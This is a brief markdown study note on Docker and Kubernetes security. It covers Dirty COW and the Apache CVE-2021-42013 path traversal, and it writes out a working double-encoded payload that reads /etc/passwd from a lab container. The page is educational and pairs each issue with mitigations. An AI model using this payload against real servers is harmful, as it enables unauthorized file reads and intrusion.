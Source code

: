 # Container-Security (Docker & Kubernetes)
## Docker: OWASP Top 10
### 1: Host OS Vulnerabilities
- If Host OS have vulnerabilities, attacker can use it to gain access to containers and apps running inside them.
- Example: CVE-2016-5195 - Dirty COW Vulnerability - Privilege escalation in Linux kernel.
- Attacker an gain root access using the Dirty COW Vulnerability.
- Resolution: Regular patching of host OS, Usage of IDS, Firewall, Implement strict access controls
#### CVE-2021-42013 (Path Traversal + RCE + Reverse Shell Attack)
- An attacker could use a path traversal attack to map URLs to files outside the directories. If files outside of these directories are not protected by the usual default configuration "require all denied", these requests can succeed. If CGI scripts are also enabled for these pathes, this could allow for remote code execution.
- This issue affects Apache 2.4.49 and Apache 2.4.50 and not earlier versions.
- Path Traversal payload - ``` http://172.17.0.2:80/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd ```
- Actual payload After double URL decode - ``` http://172.17.0.2:80/cgi-bin/../../../../../../../etc/passwd ```
- References: https://github.com/twseptian/cve-2021-42013-docker-lab
